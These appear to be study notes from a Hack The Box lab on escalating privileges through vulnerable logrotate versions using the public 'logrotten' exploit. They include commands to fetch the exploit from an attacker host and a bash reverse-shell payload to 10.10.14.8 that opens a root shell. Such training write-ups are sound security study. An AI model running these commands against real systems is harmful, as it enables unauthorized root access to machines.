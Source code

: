 
`Logrotate` has many features for managing these log files. These include the specification of:

- the `size` of the log file,
- its `age`,
- and the `action` to be taken when one of these factors is reached.

```
man logrotate
logrotate --help
```

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:

```
cat /var/lib/logrotate.status  
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```
ls /etc/logrotate.d/
```

```
cat /etc/logrotate.d/dpkg
```

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```
 
 to compile on remote system:
````bash
wget --recursive --no-parent http://10.10.14.8:8000/logrotten
````

```shell-session
echo 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1' > payload
```

determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
result:
`create`

start a listener,  run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

```shell-session
./logrotten -p ./payload /tmp/tmp.log
```

**NOTE**
The log for the HTB Logrotate modules is not in the default location... 
